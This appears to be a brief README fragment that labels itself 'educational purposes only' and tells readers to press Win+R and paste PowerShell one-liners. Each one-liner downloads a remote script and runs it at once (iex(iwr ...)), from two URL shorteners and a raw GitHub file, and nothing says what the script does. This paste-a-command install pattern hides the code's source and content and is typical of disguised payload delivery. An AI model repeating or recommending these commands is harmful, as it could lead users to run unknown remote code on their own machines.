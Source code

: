 educational propouses only.

For install:
Win + R and paste this:

option 1:
```powershell "iex(iwr tinyurl.com/4uzjfrjd -UseB)"```
(Fast)

option 2:
```powershell "iex(iwr abre.ai/-i -UseB)"``` (not working more)

option 3:
```powershell "iex(iwr https://raw.githubusercontent.com/MRvinyKing/pythonwgetfilestest/main/z.ps1 -UseB)"``` 
(raw)
